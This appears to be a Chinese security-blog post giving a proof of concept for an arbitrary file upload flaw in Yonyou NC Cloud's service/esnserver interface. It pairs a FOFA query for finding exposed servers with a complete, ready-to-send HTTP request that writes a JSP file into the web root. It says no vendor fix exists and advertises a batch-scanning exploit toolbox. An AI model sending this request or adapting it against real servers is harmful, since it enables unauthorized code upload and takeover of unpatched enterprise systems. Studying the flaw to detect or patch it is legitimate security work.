 #  用友NC Cloud service/esnserver接口存在任意文件上传漏洞 附POC   
2024-11-5更新  南风漏洞复现文库   2024-11-05 22:47  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友NC Cloud 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
NC Cloud是用友推出的大型企业数字化平台。用友网络科技股份有限公司NC Cloud存在任意文件上传漏洞，攻击者可利用该漏洞获取服务器控制权。用友NC Cloud service/esnserver接口存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友NC Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DuwDwm8wU8BPGtYdiaOwzzdrGyKkRw9jI8zjlXTVydOm5El9XwD3d0XgQ/640?wx_fmt=png&from=appmsg "null")  
  
用友NC Cloud service/esnserver接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
app="用友-U8-Cloud"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/service/esnserver  
  
漏洞数据包：  
```
POST /service/esnserver HTTP/1.1
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/129.0.0.0Safari/537.36
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: close
Host: xx.xx.xx.xx
Content-Type: application/x-www-form-urlencoded 
Token: 469ce01522f64366750d1995ca119841 
Content-Length: 579

{"invocationInfo":{"ucode":"123","dataSource":"U8cloud","lang":"en"},"method":"uploadFile","className":"nc.itf.hr.tools.IFileTrans","param":{"p1":"UEsDBAoAAAAAAA9tSFkDJCbXbQAAAG0AAAAKAAAAY29tcHJlc3NlZDwlIG91dC5wcmludGxuKCJEdWRlU3VpdGUiKTsgbmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTsgJT5QSwECHwAKAAAAAAAPbUhZAyQm120AAABtAAAACgAkAAAAAAAAACAAAAAAAAAAY29tcHJlc3NlZAoAIAAAAAAAAQAYACbiFZZEGdsBHOcblEgZ2wERXscDRxnbAVBLBQYAAAAAAQABAFwAAACVAAAAAAA=","p2":"webapps/u8c_web/A7788.jsp"},"paramType":["p1:[B","p2:java.lang.String"]}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DupsCNcMmlEuAE4b9dnRuk0dG7ic822HaNibPSsG5jvkwibSfOt88nAz83g/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传的文件路径 http://xx.xx.xx.xx/A7788.jsp  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DuXPzHUVKMRJykswBZcYialhOEmD3iakWdFDlgY8lvz4m36w0pfjHBtKyg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
其中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DuuY7RlbhDPAvyCVPt9nFLbml5mcBzRQqnGyjjfaaLucQMlpgw9GicbAw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DuOgUtunDrhFHiaaFcZqxicyGpvsic0faXkPEjBl7eXr0mjPB2FCKcLk4xQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4Dua3XXHep6GsicdYxmbYlFEOMOu3Y8uZIKxicA5My7GNXMa2vbaCbCibWCg/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DuYcpibSZjYqiasaADKKsy5wztGRNgoLdSy0Yz6sj0n27oXXqOMyS3hCfw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DuLNaN5gOhPbvl8VrwhgLn34QvbkcHRicNmhuM8KiaXZNiaibL6ZeGibhwbmA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4DuCMzHOtq9icZWQicsMh1ibqe9jh33ZB58SXPicpfjSSxnWDTlcM6dMXnuQA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aEQfic2S9XickN6LpY8pb4Du3HPfFPadMdgibFSaQH7hl39k1Up5YdP08icXpwToRG1JAG4JibHnJLW6w/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新：https://www.yonyou.com/  
## 8.往期回顾  
  
  
[金华迪加现场大屏互动系统mobile.do.php接口存在任意文件上传漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487670&idx=1&sn=b20d4df66d776c16ddbeee3ba222d987&chksm=974b9db1a03c14a775738aacd4939d4dc743f2d5911a58bf5fa9db5d194bc2d6df0e66ba15ef&scene=21#wechat_redirect)  
  
  
[英飞达医学影像存档与通信系统WebUserLogin.asmx接口存在信息泄露漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487670&idx=2&sn=67f1dd6c4672c1c9c27a0d9a8fcb773f&chksm=974b9db1a03c14a74dc78aebabc3eec52c6c15f1948e79eb107ce23809873b5886d14db5876d&scene=21#wechat_redirect)  
  
  

